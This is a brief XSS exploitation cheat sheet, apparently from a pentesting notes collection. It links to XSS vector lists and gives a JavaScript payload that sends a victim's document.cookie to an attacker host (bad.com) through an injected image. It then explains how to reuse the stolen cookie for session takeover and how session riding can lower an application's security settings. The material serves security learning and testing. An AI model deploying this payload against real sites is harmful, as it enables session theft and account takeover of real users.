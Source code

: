 # XSS

## Discovery

### XSS Vectors

[HTLM Purifier - XSS Attacks](http://htmlpurifier.org/live/smoketests/xssAttacks.xml)
[Mario Heiderich - HTML5 Security Cheatsheet](http://heideri.ch/jso/#46)


## Exploitation

### Session Hijacking

Steal the authentication tokens or cookies.

```js
var img = document.createElement('img');
img.src = 'https://bad.com/?cookie=' + document.cookie;
document.body.appendChild(img);
```

Then use the stolen credentials to take-over the session or send requests on it's behalf.

```js
document.cookie='captured=cookie'
```

### Session Riding (CSRF)

Inject any JS that you want to run from within the user's session.  This alleviates the need for us to send/capture tokens.

If we can ride the session of a privileged user, we could:
* Lower the security settings of the application to make further attacks possible/easier